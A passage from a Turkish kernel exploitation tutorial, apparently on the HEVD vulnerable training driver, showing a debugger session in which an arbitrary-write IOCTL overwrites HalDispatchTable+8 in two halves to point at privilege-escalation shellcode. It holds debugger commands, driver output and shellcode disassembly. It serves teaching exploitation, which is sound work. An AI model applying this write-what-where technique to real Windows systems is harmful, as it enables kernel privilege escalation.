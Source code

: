 Sanıyorum oldukça anlaşılır. IOCTL'i iki defa gönderiyoruz. Birinde kodumuzun alt kısmının adresini, diğerinde ise üst kısmının adresini hedefimize yazdırıyoruz. Eğer bu alıştırmayı 32 bit işletim sisteminde yapacaksanız buna gerek olmadığına dikkat edin. Orada zaten gösterici boyutları 32 bit olduğu için tek seferde bu yazma işlemini gerçekleştirebilirsiniz.

Son olarak yazdığımız kodu test edip, yetki yükseltme yapıp yapmadığımızı kontrol edelim. Ha, bu arada "shellcode"'umuz önceki yazının aynısı. Burada da kodun olağan işleyişini bozmadığımız için düz bir şekilde `ret` komutunu çalıştırmak yeterli.

Öncelikle sıra sıra işleyişi hata ayıklayıcıdan takip edelim:

```
kd> bp nt!KeQueryIntervalProfile+0x33
kd> bp HEVD!TriggerArbitraryOverwrite+0x7b
kd> g
****** HACKSYS_EVD_IOCTL_ARBITRARY_OVERWRITE ******
[+] UserWriteWhatWhere: 0x00000000002CF938
[+] WRITE_WHAT_WHERE Size: 0x10
[+] UserWriteWhatWhere->What: 0x00000000002CF928
[+] UserWriteWhatWhere->Where: 0xFFFFF80002847CB8
[+] Triggering Arbitrary Overwrite
kd> dq r12 l2
00000000`002cf938  00000000`002cf928 fffff800`02847cb8
kd> u poi(00000000`002cf928) l5
00000000`002cf948 50              push    rax
00000000`002cf949 65488b142588010000 mov   rdx,qword ptr gs:[188h]
00000000`002cf952 4c8b5a70        mov     r11,qword ptr [rdx+70h]
00000000`002cf956 4d8b9388010000  mov     r10,qword ptr [r11+188h]
00000000`002cf95d 498b0a          mov     rcx,qword ptr [r10]
kd> r rdi, r11d
rdi=fffff80002847cb8 r11d=2cf948
```

"Shellcode"'umuz `0x00000000002cf948` adresinde, bu adresi `0xfffff80002847cb8` adresine yazacağız. `r11d` yazmacında yazılacak olan, `rdi` yazmacında ise nereye yazılacağı yazıyor. Görüldüğü üzere biri `HalDispatchTable + 8` iken, diğeri "shellcode"'umuzun adresinin alt kısmı.

İkinci yarısıyla devam edelim:

```
kd> g
****** HACKSYS_EVD_IOCTL_ARBITRARY_OVERWRITE ******
****** HACKSYS_EVD_IOCTL_ARBITRARY_OVERWRITE ******
[+] UserWriteWhatWhere: 0x00000000002CF938
[+] WRITE_WHAT_WHERE Size: 0x10
[+] UserWriteWhatWhere->What: 0x00000000002CF92C
[+] UserWriteWhatWhere->Where: 0xFFFFF80002847CBC
[+] Triggering Arbitrary Overwrite
kd> dq r12 l2
00000000`002cf938  00000000`002cf92c fffff800`02847cbc
kd> dd rbx l2
00000000`002cf92c  00000000 <---- Bu sıfırlı kısım alınıp, rdi'deki adrese yazılacak
kd> dd rbx-4 l1
00000000`002cf928  002cf948 <---- Bir önceki gönderdiğimizde böyleydi
kd> r rdi
rdi=fffff80002847cbc
kd> r r11d
r11d=0
```


[^1]: Sistemdeki önemli veri yapılarını korumakla görevli bir mekanizma.